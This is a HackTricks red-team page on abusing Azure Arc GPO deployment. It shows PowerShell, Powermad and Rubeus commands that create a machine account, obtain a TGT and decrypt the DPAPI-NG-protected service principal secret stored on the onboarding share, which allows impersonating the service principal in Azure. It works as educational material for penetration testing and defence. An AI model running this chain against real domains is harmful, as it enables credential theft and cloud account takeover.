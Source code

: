 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc allows for the integration of new internal servers (joined domain servers) into Azure Arc using the Group Policy Object method. To facilitate this, Microsoft provides a deployment toolkit necessary for initiating the onboarding procedure. Inside the ArcEnableServerGroupPolicy.zip file, the following scripts can be found: DeployGPO.ps1, EnableAzureArc.ps1, and AzureArcDeployment.psm1.

When executed, the DeployGPO.ps1 script performs the following actions:

1. Creates the Azure Arc Servers Onboarding GPO within the local domain.
2. Copies the EnableAzureArc.ps1 onboarding script to the designated network share created for the onboarding process, which also contains the Windows installer package.

When running this script, sys admins need to provide two main parameters: **ServicePrincipalId** and **ServicePrincipalClientSecret**. Additionally, it requires other parameters such as the domain, the FQDN of the server hosting the share, and the share name. Further details such as the tenant ID, resource group, and other necessary information must also be provided to the script.

An encrypted secret is generated in the AzureArcDeploy directory on the specified share using DPAPI-NG encryption. The encrypted secret is stored in a file named encryptedServicePrincipalSecret. Evidence of this can be found in the DeployGPO.ps1 script, where the encryption is performed by calling ProtectBase64 with $descriptor and $ServicePrincipalSecret as inputs. The descriptor consists of the Domain Computer and Domain Controller group SIDs, ensuring that the ServicePrincipalSecret can only be decrypted by the Domain Controllers and Domain Computers security groups, as noted in the script comments.

```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```

### Exploit

We have the follow conditions:

1. We have successfully penetrated the internal network.
2. We have the capability to create or assume control of a computer account within Active Directory.
3. We have discovered a network share containing the AzureArcDeploy directory.

There are several methods to obtain a machine account within an AD environment. One of the most common is exploiting the machine account quota. Another method involves compromising a machine account through vulnerable ACLs or various other misconfigurations.

```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

Once a machine account is obtained, it is possible to authenticate using this account. We can either use the runas.exe command with the netonly flag or use pass-the-ticket with Rubeus.exe.

```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```

By having the TGT for our computer account stored in memory, we can use the following script to decrypt the service principal secret.

```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```

Alternatively, we can use [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

At this point, we can gather the remaining information needed to connect to Azure from the ArcInfo.json file, which is stored on the same network share as the encryptedServicePrincipalSecret file. This file contains details such as: TenantId, servicePrincipalClientId, ResourceGroup, and more. With this information, we can use Azure CLI to authenticate as the compromised service principal.

## References

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
